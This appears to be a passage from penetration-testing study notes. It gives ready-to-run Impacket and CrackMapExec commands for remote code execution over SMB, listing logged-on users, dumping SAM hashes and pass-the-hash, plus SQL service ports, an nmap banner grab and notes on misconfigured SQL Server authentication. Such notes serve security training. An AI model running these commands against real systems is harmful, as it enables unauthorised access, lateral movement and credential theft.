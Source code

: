 ```
impacket-psexec administrator:'Password123!'@10.10.110.17
```

**Note**: The same options apply to `impacket-smbexec` and `impacket-atexec`.

### Remote Code Execution Using CrackMapExec

```
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

### **Enumerating Logged-on Users with CrackMapExec**

```
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

### **Extract Hashes from SAM Database with CrackMapExec**

```
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

### **Pass-the-Hash (PtH) with CrackMapExec**

```
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

# SQL

## Enumeration

**MSSQL**   

`TCP/1433`  

`UDP/1434`

`TCP/2433` - Hidden Mode

**MySQL**  

`TCP/3306`.

### **Banner Grabbing with Nmap**

```
nmap -Pn -sV -sC -p1433 10.10.10.125
```

## Misconfigurations

Misconfigured authentication in SQL Server can let us access the service without credentials if anonymous access is enabled, a user without a password is configured, or any user, group, or machine is allowed to access the SQL Server.
